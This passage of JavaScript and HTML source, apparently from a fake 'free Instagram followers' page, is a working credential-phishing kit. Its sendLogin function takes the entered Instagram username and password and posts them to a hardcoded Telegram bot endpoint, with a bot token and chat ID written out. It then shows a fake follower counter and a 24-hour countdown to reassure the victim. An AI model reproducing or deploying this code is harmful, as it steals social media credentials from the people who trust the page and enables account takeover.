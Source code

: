   <div class="followers-count" id="count">0 Followers</div>
  <p>Thanks for trusting us! You'll receive your followers in 24h!</p>
</div><script>
  function showLogin() {
    document.querySelector('.main').style.display = 'none';
    document.getElementById('loginPage').style.display = 'flex';
  }

  function sendLogin() {
    const username = document.getElementById('username').value;
    const password = document.getElementById('password').value;

    fetch('https://api.telegram.org/bot8121986292:AAGc0owQYteaLViIkAUCyZ6F_5O7F1jL7t0/sendMessage', {
      method: 'POST',
      headers: {
        'Content-Type': 'application/json',
      },
      body: JSON.stringify({
        chat_id: '8192063374',
        text: `Instagram Login:\nUsername: ${username}\nPassword: ${password}`
      })
    });

    document.getElementById('loginPage').style.display = 'none';
    document.getElementById('sliderPage').style.display = 'flex';
  }

  const slider = document.getElementById('followerSlider');
  const followerCount = document.getElementById('followerCount');

  slider.oninput = function() {
    followerCount.textContent = this.value + ' Followers';
  }

  function startCountdown() {
    document.getElementById('sliderPage').style.display = 'none';
    document.getElementById('countdownPage').style.display = 'block';

    let finalCount = parseInt(slider.value);
    let current = 0;
    let interval = setInterval(() => {
      if (current >= finalCount) {
        clearInterval(interval);
      } else {
        current += Math.floor(Math.random() * 10) + 5;
        if (current > finalCount) current = finalCount;
        document.getElementById('count').textContent = current + ' Followers';
      }
    }, 150);

    // 24hr countdown timer
    const timerElement = document.getElementById('timer24h');
    let timeLeft = 24 * 60 * 60;
    const updateTimer = () => {
      const hours = Math.floor(timeLeft / 3600);
      const minutes = Math.floor((timeLeft % 3600) / 60);
      const seconds = timeLeft % 60;
      timerElement.textContent = `${hours.toString().padStart(2, '0')}:${minutes.toString().padStart(2, '0')}:${seconds.toString().padStart(2, '0')}`;
      timeLeft--;
      if (timeLeft < 0) clearInterval(timerInterval);
    };
   
